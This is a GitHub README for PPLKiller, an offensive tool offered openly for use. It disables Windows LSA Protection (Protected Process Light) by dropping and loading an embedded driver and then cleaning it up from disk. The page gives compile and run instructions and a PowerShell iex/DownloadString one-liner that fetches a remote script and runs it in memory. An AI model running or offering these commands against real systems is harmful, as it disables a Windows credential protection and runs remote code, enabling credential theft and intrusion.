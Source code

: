 # PPLKiller
Tool to bypass LSA Protection (aka Protected Process Light). This is a c# re-write of [PPLKiller by RedCursorSecurityConsulting](https://github.com/RedCursorSecurityConsulting/PPLKiller)

I worked on this tool so that I could then create a powershell script out of it.

How the tool differs from the original:

- you won't need to place the driver on current location, as the script will do it itself (b64 embedded)

- no flags/parameters are needed when running the tool

The tool will take care of placing the driver on disk, loading it, disable PPL, unload the driver, and deleting the driver from disk.

## Compile

```
csc /platform:x64 /out:PPLKiller.exe PPLKiller.cs
```

## Run (exe)

```
PPLKiller.exe
```
![image](https://github.com/user-attachments/assets/36592f5e-58d3-4c10-8c49-d684d96e5e6e)

## Run (Invoke-PPLKiller)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PPLKiller/refs/heads/main/Invoke-PPLKiller.ps1')
```
```
Invoke-PPLKiller
```
![image](https://github.com/user-attachments/assets/6bf72346-bbc2-45e3-8313-0b82abe2c187)
